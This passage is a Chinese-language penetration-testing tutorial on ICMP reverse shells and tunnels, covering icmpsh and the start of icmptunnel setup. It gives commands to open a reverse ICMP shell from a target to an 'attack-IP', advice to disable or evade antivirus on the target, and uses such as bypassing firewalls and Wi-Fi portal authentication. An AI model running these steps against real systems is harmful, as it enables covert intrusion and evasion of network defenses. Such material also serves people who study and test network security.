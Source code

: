 ![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibXnnuXtZcFYVnCwzLOuA570MyVVpic64bAqKAbM9WKOeRoaibZVwPQuFx4JiaT8NOguxLtiatlSKeFjw/640?wx_fmt=png)

4.1 icmpsh
----------

icmpsh 是一个反向 icmp shell，被控端只能支持 windows，控制端可以支持 c、perl、python 环境。

在渗透过程中，遇到目标不能正常返回 tcp 的 shell 时，就可以尝试使用该工具，通过走 icmp 去获取一个 shell。

在运行时不要忘记关闭 icmp 应答，要不会陷入个死循环。

sysctl -w net.ipv4.icmp\_echo\_ignore\_all=1

在控制端执行监听：icmpsh\_m.py attack-IP target-IP

把 exe 文件上传到目标机，如果主机有杀软需要关闭杀软或者对这个 exe 文件进行免杀处理。

执行：icmpsh.exe -t attack-ip

稳定性和速度都尚可。

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibXnnuXtZcFYVnCwzLOuA57tApMU8HIibUj93jF0odwlXNKE8Q41hbXFWCVooEibn9Lm4BxapqbUzXw/640?wx_fmt=png)

观察可以发现，由目标机不断向攻击机发送 ICPM 包，攻击会把命令带到返回包中，当目标机接收命令后会将结果带到请求中。

同时控制每个包的数据长度在 106，数据长度都是 64。在等待过程中，数据包中都不会带有 data 内容。

4.2 icmp 隧道
-----------

ICMP 隧道是指将 TCP 连接通过 ICMP 包进行隧道传送。隧道呢可以理解为一个点对点连接。通过 icmp 隧道可以做到

*   突破专门认证：连接到公共场所，如酒店、机场等 wifi，可以突破其页面认证
    
*   突破防火墙：绕过防火墙的一些防护策略
    
*   加密通信：可以通过加密，创建完全加密的通信通道
    
*   突破运营商的 TCP 或者 UDP 速度限制
    

### 4.2.1 icmptunnel

icmptunnel 是一个稳定的 icmp 隧道建立工具，可以穿过状态防火墙或 NAT。它和 ptunnel 不同的是，可以通过隧道代理任何 IP 流量。此外，所有的客户端 IP 包 - 而不仅仅是单个会话，端口等。

优点

*   数据加密 - ICMP 有效载荷是加密的。
    
*   多功能性 - 任何 IP 流量都可以通过隧道。
    

使用方法

```
下载
git clone https://github.com/DhavalKapil/icmptunnel

编译 
cd icmptunnel
make在服务端（攻击机）起服务（需要root权限）
./icmptunnel -s 10.0.1.1
```
